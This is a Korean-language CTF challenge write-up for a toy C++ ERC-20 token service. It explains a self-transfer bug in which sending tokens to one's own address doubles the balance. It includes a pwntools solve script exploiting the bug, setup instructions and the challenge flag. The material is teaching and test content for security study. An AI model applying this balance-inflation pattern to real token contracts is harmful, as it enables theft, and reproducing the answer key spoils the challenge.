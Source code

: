 # 출제자

조정훈

# 풀이

해당 프로그램은 [ERC-20 protocol](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol)을 간단하게 C++ 상에서 구현한 구현체이다.

Real-world에서 발생한 Ethereum Token 취약점을 모티브로 출제하였다.

```cpp
class ERC20 {
public:
    ERC20();
    ERC20(address user);
    uint32_t balanceOf(address account);
    void approve(address spender, uint32_t amount);
    uint32_t allowance(address owner, address spender);
    void transfer(address to, uint32_t amount);
    void transferFrom(address sender, address recipient, uint32_t amount);
    void check(address account);

private:
    map<address, uint32_t> _balance;
    map<address, map<address, uint32_t>> _allowance;
    uint32_t _totalSupply;

    void _spendAllowance(address owner, address spender, uint32_t value);
    void _mint(address account, uint32_t value);
    void _update(address from, address to, uint32_t value);
};
```

ERC-20에 구현되어 있는 대부분의 method와 field가 구현되어있으며, 유저는 public method들을 json interface를 통해 호출할 수 있다.

실제 ERC-20과는 달리 SafeMath 라이브러리 및 Solidity 0.8.0 이상 버전에 내장된 Integer Overflow 방지가 적용되어있지 않지만, Integer Overflow를 트리거 할 수 없어 무관하다.

또한 Ethereum에서 private key를 통해 Wallet address를 생성할 때 거치는 ECDSA와 Keccak-256 해싱은 단순 sha256으로 대체하였다.

프로그램이 실행되면 user는 16개의 토큰을 가지며, 같은 network상 무작위의 지갑 주소들에 token을 minting한다.

특정 주소가 10,000,000개 이상의 토큰을 보유할 시 flag를 출력해준다.

취약점은 `_update` 함수에 존재한다.

```c++
void ERC20::_update(address from, address to, uint32_t value) {
    uint32_t from_balance = this->_balance[from];
    uint32_t to_balance = this->_balance[to];
    this->_balance[from] = from_balance - value;
    this->_balance[to] += to_balance + value;
}
```

언뜻 보면 안전해보이나, from과 to가 같은 address로 전달된다면 아래와 같은 상황이 벌어진다 (!)

```
- wallet A == from == to
- balanceOf(A) == 16

uint32_t from_balance = this->_balance[from]; // 16
uint32_t to_balance = this->_balance[to]; // 16
this->_balance[from] = from_balance - value; // _balance[A] = 16 - 16
this->_balance[to] += to_balance + value; // _balance[A] = 16 + 16
```

따라서 transferFrom(USER, USER, balanceOf(USER))가 실행될 때 마다 balance는 2배로 증가하고, 이를 이용해 플래그를 획득할 수 있다.

```
from pwn import *

p = process('./hspaceETH')

p.recvuntil(b': ')
p.sendline(b'1234')

balance = 16

while balance < 10000000:
    p.recvuntil(b'Tx : ')
    pay = b'{"method" : "transferFrom", "sender" : %d, "recipient" : %d, "amount": %d}' % (0xf104, 0xf104, balance)
    p.sendline(pay)
    balance *= 2

p.recvuntil(b'Tx : ')
pay = b'{"method" : "balanceOf", "account" : %d}' % (0xf104)
p.sendline(pay)

p.recvuntil(b'Tx : ')
pay = b'{"method" : "check", "account" : %d}' % (0xf104)
p.sendline(pay)

p.interactive()
```

# 문제 세팅 방법

`docker-compose up -d`

# 출제 지문

Try to hack my ERC-20 based HSpace Token (HST), which worths about 1 wei per token.

# 플래그

`hspace{this_bug_pattern_really_existed_in_several_ethereum_tokens}`